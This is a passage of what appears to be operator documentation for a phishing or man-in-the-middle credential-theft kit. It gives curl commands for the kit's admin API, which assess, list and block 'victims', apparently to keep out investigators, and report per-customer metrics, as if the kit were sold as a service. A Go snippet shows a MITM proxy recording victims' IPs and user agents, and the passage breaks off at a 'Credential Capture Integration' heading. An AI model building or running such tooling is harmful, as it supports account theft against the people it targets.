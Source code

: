 ### Get Victim Risk Assessment

```bash
curl -H "Authorization: Bearer [FIRESTORE_AUTH]" \
     "https://your-domain.com/admin/victim-risk?email=target@domain.com"
```

### Get All High-Risk Victims

```bash
curl -H "Authorization: Bearer [FIRESTORE_AUTH]" \
     https://your-domain.com/admin/high-risk-victims
```

### Manual Victim Blocking

```bash
curl -X POST -H "Authorization: Bearer [FIRESTORE_AUTH]" \
     -H "Content-Type: application/json" \
     -d '{"email":"suspicious@domain.com","reason":"Manual investigation"}' \
     https://your-domain.com/admin/block-victim
```

### Customer Performance Metrics

```bash
curl -H "Authorization: Bearer [FIRESTORE_AUTH]" \
     "https://your-domain.com/admin/customer-metrics?slug=CUSTOMER_SLUG"
```

**Response:**

```json
{
  "slug": "customer-abc",
  "performance": "ACTIVE",
  "risk_level": "UNKNOWN",
  "total_visits": 150,
  "security_alerts": 2
}
```

## 🖥️ Integration Points

### MITM Proxy Integration

The victim monitoring system integrates at the entry point:

```go
// proxy/mitm.go - Track anonymous victims at slug hits
monitoring.GlobalVictimMonitor.TrackVictimActivity("", clientIP, userAgent, targetDomain)
```

### Credential Capture Integration  
